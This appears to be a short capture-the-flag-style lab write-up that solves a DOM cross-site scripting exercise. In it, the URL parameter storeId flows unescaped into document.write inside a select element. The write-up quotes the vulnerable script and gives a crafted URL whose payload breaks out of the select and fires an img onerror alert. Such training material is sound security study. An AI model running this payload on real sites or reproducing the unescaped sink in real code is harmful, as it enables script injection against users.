

# **DOM XSS in `document.write` sink using source `location.search` inside a select element**

In the product page there is this JS:

```
<script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

Because of this if you add storeId as a param in the URL it will get added to the store dropdown:



So we can add a payload in storeId to XSS:

```
Payload: "></select>

URL: https://0ace00ec04526afd813c6b4c0089008d.web-security-academy.net/product?productId=15&storeId=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E
```
